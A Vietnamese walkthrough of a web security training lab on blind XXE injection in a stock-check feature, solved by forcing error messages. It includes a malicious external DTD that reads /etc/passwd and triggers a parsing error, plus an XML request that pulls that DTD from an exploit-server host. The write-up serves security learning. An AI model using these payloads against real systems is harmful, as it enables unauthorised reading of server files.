


# Lab: Exploiting blind XXE to retrieve data via error messages

## Mô tả lab

Ứng dụng có chức năng kiểm tra hàng tồn kho tồn tại lỗ hổng XXE, kết quả không hiển thị lại (blind). Lab cung cấp một exploit server để host nội dung độc hại. Mục tiêu là trích xuất nội dung `/etc/passwd` thông qua **thông báo lỗi** (error message).

## Các bước thực hiện

### Phân tích

Giống lab trước, đây là trang web bán hàng kèm exploit server.

Việc chèn nội dung vào kết quả không thành công. Tuy nhiên, khi gây ra một lỗi parsing, thông báo lỗi lại được hiển thị trong response:



Nếu ép được thông báo lỗi chứa nội dung cần lấy, mình sẽ nhận được nó.

### Khai thác

Cách khai thác tương tự lab Blind trước, dùng parameter entity trong một file DTD.

Tạo một file DTD độc hại, host trên exploit server, mở rộng động thành một thông báo lỗi chứa nội dung `/etc/passwd`:

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % wrap "<!ENTITY &#x25; boom SYSTEM 'file:///foo/%file;'>">
```

DTD này cố truy cập một file không tồn tại có tên là toàn bộ nội dung `/etc/passwd`. Vì file không tồn tại, một parsing error xảy ra và ứng dụng hiển thị thông báo lỗi kèm nội dung đó.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0ade00a60483659a800a1bba01de0003.exploit-server.net/exploit.dtd"> %xxe;
%wrap;
%boom; 
 ]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```



Nội dung `/etc/passwd` hiện ra trong thông báo lỗi:


Lab solved.
